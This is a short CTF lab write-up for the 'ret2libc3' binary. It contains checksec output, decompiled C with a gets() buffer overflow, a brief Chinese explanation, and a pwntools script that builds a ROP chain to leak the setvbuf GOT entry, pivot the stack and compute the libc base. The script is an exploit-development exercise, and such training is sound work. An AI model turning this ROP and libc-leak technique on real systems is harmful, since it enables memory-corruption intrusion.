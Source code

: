 ```shell
gef➤  checksec
[+] checksec for '/home/kali/pwn/ret2libc3'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-64h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(&s);
  return 0;
}
```

这次连 system 都没有了，所以就需要获取 libc 中 system 的地址，就需要获取装载基址。用 puts 泄露 `__libc_start_main` 的 got 表项，我电脑上这个地址有 `\x00` 所以打印不了，选择另一个 `setvbuf`。泄露之后可以用栈迁移再用 gets 读或者返回到 main 函数：

```python
##coding=utf8
from pwn import *

r = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

offset = 0xffffd5c8 - 0xffffd55c + 4
buf = 0x0804af80
buf2 = 0x0804a880

puts_plt = ret2libc3.plt['puts']
gets_plt = ret2libc3.plt['gets']
setvbuf_got = ret2libc3.got['setvbuf']

pop_ebp_ret = 0x080486ff
leave_ret = 0x08048538
rop = [
    puts_plt,
    pop_ebp_ret,
    setvbuf_got,
    gets_plt,
    pop_ebp_ret,
    buf,
    pop_ebp_ret,
    buf - 4,
    leave_ret,
]
print offset
r.sendlineafter('Can you find it !?', 'a'*offset + ''.join(map(p32, rop)))
# recv1 = r.recvline()
# print 'recv1: ', ":".join("{:x}".format(ord(c)) for c in recv1)
setvbuf = r.recvline()
print 'recv: ', ":".join("{:x}".format(ord(c)) for c in setvbuf)

setvbuf_offset = 0x006fd30
libc_base = u32(setvbuf[:4]) - setvbuf_offset
print 'libc base:', hex(libc_base)
```